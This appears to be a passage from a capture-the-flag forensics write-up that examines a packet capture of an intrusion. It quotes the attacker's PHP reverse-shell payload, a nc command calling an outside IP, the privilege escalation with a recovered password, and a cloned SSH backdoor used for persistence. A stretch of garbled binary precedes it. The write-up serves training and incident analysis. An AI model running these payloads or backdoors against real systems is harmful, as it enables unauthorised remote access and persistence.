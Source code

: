 ~~~
.(@....a}.......]g.....y4^U8...k......=............D._...]..+&.s#...*.......F..!.(.y.sa.....D..\^{........X..]..........d>.E.......
~~~

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

## #1.3 - What password did the attacker use to privesc?

Jump to the next streams to reveal the following payloads:

~~~
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

[REDACTED]

~~~

We see that the james' password is `whenevernoteartinstant`.

## #1.4 - How did the attacker establish persistence?

Still in the same stream, scrolling down reveals that the attacker has downloaded a ssh backdoor to establish persistence:

~~~
[REDACTED]

james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        

[REDACTED]
~~~
